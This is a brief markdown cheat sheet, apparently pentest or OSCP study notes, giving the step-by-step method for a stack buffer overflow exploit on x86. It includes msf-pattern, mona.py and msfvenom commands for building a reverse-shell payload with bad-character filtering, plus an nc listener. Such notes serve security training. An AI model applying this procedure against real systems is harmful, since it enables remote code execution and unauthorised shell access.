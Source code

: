 # Buffer Oveflow

## Identify Overflow Length

> 1. Attach debugger
> 2. Run fuzzer script
> 3. Run confirm-overflow script

## Control EIP

> 1. Create pattern: `msf-pattern_create -l <length>`
> 2. Run locate-offset script
> 3. Locate offset: `msf-pattern_offset -l <length> <eip-value>`
> 4. Run verify-offset script

## Locate Space for Shellcode

> 1. Run increase-overflow script to attempt increasing overflow size
> 2. If successful, run bad-char script

## Find Return Address

> 1. Locate module w/ least memory protection: mona.py `!mona modules`
> 2. JMP ESP hex: `msf-nasm_shell > jmp esp` (FFE4)
> 3. Locate JMP ESP w/ no bad chars: mona.py `find -s "\xff\xe4" -m "<dll module>"`
> 4. Run verify-jmp-esp script

## Getting Shell

> 1. Generate payload: `msfvenom -p <payload> LHOST=<ip> LPORT=<port> EXITFUNC=thread -f <format> -e x86/shikata_ga_nai -b "<bad-chars> (e.g. \x00\x0a\x0d\x25\x26\x2b\x3d)"`
> 2. Run listener: `sudo nc -nvlp <port>`
> 3. Run exploit script

## Cheatsheets

> - [Tib3rius/Pentest-Cheatsheets](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst)
> - [V1n1v131r4/OSCP-Buffer-Overflow](https://github.com/V1n1v131r4/OSCP-Buffer-Overflow)
